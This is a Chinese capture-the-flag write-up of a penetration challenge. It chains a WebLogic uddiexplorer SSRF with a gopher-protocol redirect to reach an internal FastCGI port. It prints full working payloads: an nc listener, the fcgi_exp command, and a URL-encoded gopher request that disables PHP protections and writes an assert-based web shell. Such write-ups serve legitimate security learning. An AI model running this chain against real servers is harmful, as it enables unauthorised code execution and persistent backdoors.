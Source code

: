 ```yaml
---
layout: post
title: 来自星星的你系列 1 writeup
category: writeup
tags: ctf
description:
---
```


0x00 引子
----
来自星星的你被我给丢了，我可能需要用我所有的一切才能把你找回，编了两句就编不下去了，好吧，我承认这是一期渗透题，就是这么直接。
----------

 - tips 1: SSRF
 - tips 2: 或许可以扫描下目录？
 - tips 3: /console/ 这个目录会对你有帮助
----------

0x01 Discuz X3.2
----------------

发现是个Discuz 
[Discuz!另一处SSRF无须登陆无须条件][1]
然后想起了rr菊苣写的文
[利用 gopher 协议拓展攻击面][2]
然后查看了一下info.php并没有开启gopher协议
然后扫目录发现了

```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/
```
weblogic的uddiexplorer引发的ssrf
[weblogic ssrf案例][3]

然后根据rr菊苣的方法
新建一个1.php内容如下

````
<?php
header("Location: gopher://127.0.0.1:2333/_test");
?>
````

然后nc监听

```
nc -lvv 2333
```

然后构造请求
```
http://0761e975dda0c67cb.jie.sangebaimao.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip/1.php&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
![QQ截图20160607195754.jpg][4]

嗯收到了请求.
通过这个weblogic的SSRF可以得知开放了(FastCGI)9000和(redis)6379
获得路径	```/opt/discuz/info.php```
先生成payload
```
fcgi_exp.exe system 127.0.0.1 2222 /opt/discuz/info.php "echo
‘assert(${_POST}[x]);’ > /opt/discuz/data/233333.php"
```
```
nc -l -p 2222 > t.txt
```
然后urlencode一下就好

然后在1.php中修改成我们构造的payload
```
<?php
header("Location:gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%12%06%00%0F%14SCRIPT_FILENAME/opt/discuz/info.php%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0E%03CONTENT_LENGTH111%0F%08SERVER_PROTOCOLHTTP/1.1%0D%01DOCUMENT_ROOT/%0E%04REQUEST_METHODPOST%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00o%01%00%3C%3Fphp%20system%28%27echo%20%27assert%28%24%7B_POST%7D%5Bx%5D%29%3B%27%20%3E%20/opt/discuz/data/233333.php%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00");
?>
```


然后就完工了
[参考][5]
可惜没有参加.


  [1]: http://www.wooyun.org/bugs/wooyun-2015-0151179
  [2]: http://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2?_=1465299676160
  [3]: http://www.wooyun.org/bugs/wooyun-2010-0195141
  [4]: https://img.scanfsec.com/img/2016061340930103.jpg
  [5]: http://drops.wooyun.org/tips/16590
